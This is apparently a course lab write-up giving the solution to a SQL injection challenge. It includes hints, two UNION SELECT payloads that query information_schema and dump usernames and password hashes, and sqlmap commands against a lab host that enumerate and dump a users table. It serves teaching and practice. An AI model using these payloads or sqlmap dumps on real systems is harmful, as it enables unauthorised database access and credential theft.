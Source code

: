 # SQL injection challenge for Bloom's Taxonomy Level: Analyzing

**hints**
1. User sensitive data is stored in column which name contains 'pass'
1. There is default database table called 'information_schema' where you can find all the information about other databases and its tables.
1. Inside information_schema here is table called 'COLUMNS'. The user can find necessary info from that table
1. Inside table 'COLUMNS' there are columns TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME
1. The user can write sql query and apply all info in one query. After finding databse name, table name, column name just one more query remains till victory.

**Query #1, to output necessarry info**
```sql
' UNION ALL SELECT 1, TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME FROM information_schema.COLUMNS WHERE COLUMN_NAME LIKE '%pass%' #'
```
**Query #2, to output hash flag**
```sql
' UNION ALL SELECT 1, users.pass, users.user, 3 FROM bikodua_level_apply.users #'
```
*Note: databse name will be unique for each user. So, in this query above db name needs to be replaced*

**It is possible to use SQLMap**

- At first a student needs to install SQLmap
```bash
sudo apt-get install sqlmap
#password is student
```
- Then run this script below
```bash
sqlmap --url="http://192.168.8.254/home/ajax" --data="search=h&csrf=F3qt5W6L8TaIwncZSTApFG4qw4dQraHO&action=search" --cookie="PHPSESSID=ecej4q1orlkvspf48ut81fl57v" --csrf-token="csrf" --csrf-url="http://192.168.8.254" --dbms=mysql --dbs --batch
```
**PHPSESSID** needs to be replaced to current active(Signed in) session ID and all the other parameters are fine

- After showing DB name find proper one and run another command
```bash
sqlmap --url="http://192.168.8.254/home/ajax" --data="search=h&csrf=F3qt5W6L8TaIwncZSTApFG4qw4dQraHO&action=search" --cookie="PHPSESSID=ecej4q1orlkvspf48ut81fl57v" --csrf-token="csrf" --csrf-url="http://192.168.8.254" --dbms=mysql --batch -D bikodua_level_apply --tables
```
- then command below and it will output all user data where we can find our desired hash flag
```bash
sqlmap --url="http://192.168.8.254/home/ajax" --data="search=h&csrf=F3qt5W6L8TaIwncZSTApFG4qw4dQraHO&action=search" --cookie="PHPSESSID=ecej4q1orlkvspf48ut81fl57v" --csrf-token="csrf" --csrf-url="http://192.168.8.254" --dbms=mysql --batch -D bikodua_level_apply -T users --dump
```# ITI0103-applying-defense
# ITI0103-applying-defense
